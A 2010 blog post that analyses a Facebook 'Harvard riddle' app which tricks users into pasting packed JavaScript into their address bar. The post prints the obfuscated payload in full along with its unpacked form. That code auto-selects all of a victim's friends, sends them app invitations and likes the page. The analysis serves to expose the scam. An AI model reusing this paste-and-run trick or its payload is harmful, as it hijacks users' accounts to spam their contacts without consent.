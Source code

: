 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
tags: javascript
render_with_liquid: false
---
```


<!-- textlint-disable rousseau -->

Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

```javascript
javascript: (function () {
  a = "app112010525500764_jop";
  b = "app112010525500764_jode";
  ifc = "app112010525500764_ifc";
  ifo = "app112010525500764_ifo";
  mw = "app112010525500764_mwrapper";
  eval(
    (function (p, a, c, k, e, r) {
      e = function (c) {
        return (
          (c < a ? "" : e(parseInt(c / a))) +
          ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        );
      };
      if (!"".replace(/^/, String)) {
        while (c--) r[e(c)] = k[c] || e(c);
        k = [
          function (e) {
            return r[e];
          },
        ];
        e = function () {
          return "\\w+";
        };
        c = 1;
      }
      while (c--)
        if (k[c]) p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c]);
      return p;
    })(
      'J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);',
      62,
      69,
      "||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||".split(
        "|",
      ),
      0,
      {},
    ),
  );
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

```javascript
d = document;
d["getElementById"](mw)["style"]["visibility"] = "hidden";
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

Lets go though the code above step by step.

```javascript
d["getElementById"](mw)["style"]["visibility"] = "hidden";
```

This code hides the application's main block.

```javascript
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
```

The contents of the textarea at id b ('app112010525500764_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

```html
<textarea
  id="app112010525500764_jode"
  style="display: none;"
  fbcontext="86d477030eb0"
>
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

```javascript
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

```javascript
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?

<!-- textlint-enable rousseau -->
